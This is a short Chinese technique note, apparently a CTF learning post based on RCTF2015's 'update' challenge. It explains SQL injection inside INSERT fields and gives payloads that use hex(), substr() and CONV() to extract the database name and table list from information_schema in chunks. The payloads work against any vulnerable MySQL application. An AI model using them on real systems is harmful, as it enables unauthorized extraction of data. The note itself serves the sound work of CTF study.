

在sql注入中，如果存在insert的话，可以在字段中进行拼接

但是需要技巧，这里以在字段中添加数据库名的查询为例

```
'test1'+(select database())
```



那么执行后会出现以下结果


返回为0，但是如果利用如下技巧

```
'test1'+(select hex(database()))
```


再进行16进制解码就能获取结果

但是如果太长会出现截断的问题，比如本来的查询语句如下

```
select group_concat(table_name) from information_schema.tables where table_schema=database()
```

此时用上述payload会发生以下情况,不能完全编码


这时候可以用截取substr函数来获取结果，和进制转换CONV来实现，个人猜测是没法显示字母，只能显示数字所以要转成10进制，上面数据库ctf没有字母是例外

CONV把16进制转为10进制可以使结果更长，但是超过12位会回显科学计数法，所以要用substr来截断，mid也行

最后使用的payload如下

```
//第一截
'test1'+
(select CONV(substr(hex((select group_concat(table_name) from information_schema.tables where table_schema=database())),1,12),16,10))

//第二截
'test1'+
(select CONV(substr(hex((select group_concat(table_name) from information_schema.tables where table_schema=database())),13,12),16,10))

//之后依次
```


知识点来源于：RCTF2015 WEB update
